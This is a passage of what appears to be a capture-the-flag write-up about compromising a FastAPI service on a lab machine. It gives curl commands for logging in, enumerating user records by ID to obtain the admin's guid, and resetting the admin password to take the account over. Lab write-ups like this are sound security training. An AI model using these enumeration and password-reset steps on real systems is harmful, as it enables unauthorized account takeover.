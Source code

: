 ```
curl -v 'http://10.10.11.161/api/v1/user/login'  -d 'username=Emp5r0R@king.com&password=password' | jq .
```
- In return I got the JWT token ![token-gif](https://media.giphy.com/media/PxVKRFBpfx6JUlBoc3/giphy.gif?cid=790b76110zjv3n4kxnxi7vbwtnqzxnac71n8ixnapykh1iec&ep=v1_gifs_search&rid=giphy.gif&ct=g)
- Curl Output:
![login-output](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250306000008.png?raw=true)

- I used this [extension](https://addons.mozilla.org/en-US/firefox/addon/simple-modify-header/) to modify the header, I could've used burp interceptor but for some reason it didn't worked for me as intended.
![Alt](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250306000151.png?raw=true)

- I tried to access `/docs` endpoint with providing the token, After including it, I was redirected to `FastAPI` interface. 
![FastAPI](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250306000101.png?raw=true)

- Surpisingly,`SecretFlagEndpoint` straight out gave {{< keyword >}} User flag {{< /keyword >}} 
- I didn't expect this 
![User_flag](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250306000302.png?raw=true)
- After some enumeration I found this endpoint `/api/v1/user/0` which on modifying the Id parameter spits out user information. This Id `1` gave me the admin details.

```bash
curl -X 'GET' \
  'http://10.10.11.161/api/v1/user/1' \
  -H 'accept: application/json' | jq
```
![Admin_details](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250306084525.png?raw=true)

- I can change password of any user If I had `guid`, As I already have the `guid` of user `admin` I can change `admin` account's password by curling this endpoint `/api/v1/user/updatepass` with valid data.
```bash
curl -X 'POST' \
  'http://10.10.11.161/api/v1/user/updatepass' \
  -H 'accept: application/json' \
  -H 'Content-Type: application/json' \
  -d '{
  "guid": "36c2e94a-4271-4259-93bf-c96ad5948284",
  "password": "emperor"
}'
```
![updatepass](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250306084838.png?raw=true)

- Using the newly changed password I authorized myself with `FastAPI`

![fastapi-auth](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250306084936.png?raw=true)

- Now I can access admin endpoints as I am an admin now to FastAPI
![admin_endpoints](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250306085052.png?raw=true)
